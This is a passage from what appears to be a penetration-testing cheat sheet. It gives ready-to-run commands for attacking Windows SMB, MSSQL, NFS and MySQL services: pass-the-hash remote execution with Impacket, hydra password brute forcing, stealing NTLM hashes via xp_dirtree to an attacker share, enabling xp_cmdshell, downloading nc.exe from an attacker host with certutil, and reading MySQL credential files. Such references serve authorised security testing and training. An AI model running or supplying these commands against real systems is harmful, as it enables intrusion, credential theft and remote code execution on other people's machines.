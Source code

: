 > smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
> smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

> atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
> atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>


# Check if vulnerable
> python eternal_checker.py <IP>

# MSSQL - 1433

**Brute force**
> hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u

**Having credentials**
> mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
> mssqlclient.py <USER>:<PASSWORD>@<IP>

**Once logged in you can run queries:**
> SQL> select @@ version;

**Steal NTLM hash**
> sudo smbserver.py -smb2support liodeus .
> SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

**Try to enable code execution**
> SQL> enable_xp_cmdshell

**Execute code**
> SQL> xp_cmdshell whoami /all
> SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe

# NFS - 2049

**Show Mountable NFS Shares**
> showmount -e <IP>
> nmap --script=nfs-showmount -oN mountable_shares <IP>

**Mount a share**
> sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
> sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>

## MYSQL - 3306

**Brute force**
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u

**Extracting MySQL credentials from files**
> cat /etc/mysql/debian.cnf
> grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"

